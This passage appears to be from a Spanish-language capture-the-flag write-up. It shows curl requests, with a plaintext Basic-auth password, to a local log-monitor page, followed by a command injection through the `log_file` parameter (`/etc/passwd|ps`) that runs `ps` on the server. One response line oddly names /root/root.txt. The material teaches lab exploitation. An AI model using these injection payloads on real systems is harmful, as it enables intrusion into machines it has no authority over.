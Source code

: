 ```bash
amay@sea:~$ curl --basic -u 'amay:mychemicalromance' -v http://127.0.0.1:8080
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
* Server auth using Basic with user 'amay'
> GET / HTTP/1.1
> Host: 127.0.0.1:8080
> Authorization: Basic YW1heTpteWNoZW1pY2Fscm9tYW5jZQ==
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Host: 127.0.0.1:8080
< Date: Sat, 21 Dec 2024 14:21:11 GMT
< Connection: close
< X-Powered-By: PHP/7.4.3-4ubuntu2.23
< Content-type: text/html; charset=UTF-8
< 
... [snip]
```

Leyendo el HTML, podremos ver que se trata de un monitor del sistema desarrollado por la misma amay al parecer. Si continuamos leyendo veremos que hay un formulario con un parámetro `log_file` con dos opciones, pero esas dos opciones son solamente las que nos dice la web (jiji).

Si le intentamos enviar otro archivo, ahora nos dirá que no hay contenido malicioso en este:

```bash
amay@sea:~$ curl --basic -u 'amay:mychemicalromance' -d "log_file=/etc/passwd&analyze_log" http://127.0.0.1:8080/
... [snip]
        <div class="status">
            <h2>Analyze Log File</h2>
            <form action="" method="post">
                <select name="log_file">
                    <option value="/var/log/apache2/access.log">access.log</option>
                    <option value="/var/log/auth.log">auth.log</option>
                </select>
                <button type="submit" name="analyze_log" class="button">Analyze</button>
            </form>
            <p>No suspicious traffic patterns detected in /root/root.txt.</p>        </div>

    </div>
</body>
</html>
```

y si le intentamos colar algo para poder inyectar comandos, ahora nos dirá:

```bash
amay@sea:~$ curl --basic -u 'amay:mychemicalromance' -d "log_file=/etc/passwd|ps&analyze_log" http://127.0.0.1:8080/
... [snip]
<button type="submit" name="analyze_log" class="button">Analyze</button>
            </form>
                  1 ?        00:00:02 systemd
    494 ?        00:00:09 systemd-journal
    527 ?        00:00:00 systemd-udevd
    803 ?        00:00:07 vmtoolsd
    856 ?        00:00:00 systemd-logind
<p class='error'>Suspicious traffic patterns detected in /etc/passwd|ps:</p><pre>    856 ?        00:00:00 systemd-logind</pre>        </div>
... [snip]
```
